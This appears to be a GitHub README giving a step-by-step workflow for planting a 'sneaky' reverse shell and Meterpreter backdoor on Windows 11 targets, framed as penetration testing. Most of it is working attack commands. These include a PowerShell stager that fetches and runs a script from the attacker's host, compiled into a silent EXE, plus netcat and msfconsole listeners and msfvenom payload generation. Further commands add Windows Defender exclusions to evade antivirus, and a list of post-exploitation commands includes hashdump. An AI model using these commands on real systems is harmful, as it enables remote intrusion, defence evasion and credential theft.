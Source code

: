 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$ps_name = "reverse_shell.ps1"                # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute **sudo su** and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath/$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. Write **exit** and continue in first Kali Linux terminal with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

6. Return to the Kali terminal and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

7. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
```


8. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
